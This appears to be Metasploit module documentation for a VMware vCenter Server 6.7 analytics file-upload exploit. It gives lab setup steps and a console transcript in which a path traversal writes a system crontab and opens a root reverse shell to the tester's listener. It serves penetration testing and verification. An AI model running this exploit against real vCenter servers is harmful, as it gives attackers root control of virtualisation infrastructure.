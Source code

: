 ## Vulnerable Application

### Setup

Follow [VMware's official documentation] or the unorthodox steps below.

1. Download ISO
1. Extract OVA from ISO
1. Import OVA
1. Boot VM
1. Set root password in console
1. Complete setup at <https://change-this-to-your-target-host:5480/>
1. _Ensure that [CEIP is enabled]_
1. **(Optional)** Upgrade to desired patch level

Initialization may take a while before the target is exploitable.

[VMware's official documentation]: https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-8DC3866D-5087-40A2-8067-1361A2AF95BD.html
[CEIP is enabled]: https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vsphere.vcenterhost.doc/GUID-F97CD334-CD4A-4592-B7B1-43A49CF74F39.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### VMware vCenter Server 6.7 Update 3n (Linux appliance)

```
msf6 > use exploit/linux/http/vmware_vcenter_analytics_file_upload
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/vmware_vcenter_analytics_file_upload) > options

Module options (exploit/linux/http/vmware_vcenter_analytics_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/vmware_vcenter_analytics_file_upload) > set rhosts 172.16.57.2
rhosts => 172.16.57.2
msf6 exploit(linux/http/vmware_vcenter_analytics_file_upload) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(linux/http/vmware_vcenter_analytics_file_upload) > run

[*] Started reverse SSL handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. CEIP is fully enabled.
[*] Creating path traversal
[+] Successfully created path traversal
[*] Executing cmd/unix/reverse_perl_ssl (Unix Command)
[*] Writing system crontab: /etc/cron.d/GWjzDiAN.json
[+] Successfully wrote system crontab
[!] Please wait up to 63 seconds for a session
[*] Command shell session 1 opened (172.16.57.1:4444 -> 172.16.57.2:42868) at 2021-10-06 16:23:06 -0500

id
uid=0(root) gid=0(root) groups=0(root),1000(vami),4044(shellaccess),59005(coredump)
uname -a
Linux photon-machine 4.4.250-1.ph1 #1-photon SMP Fri Jan 15 03:01:15 UTC 2021 x86_64 GNU/Linux
```

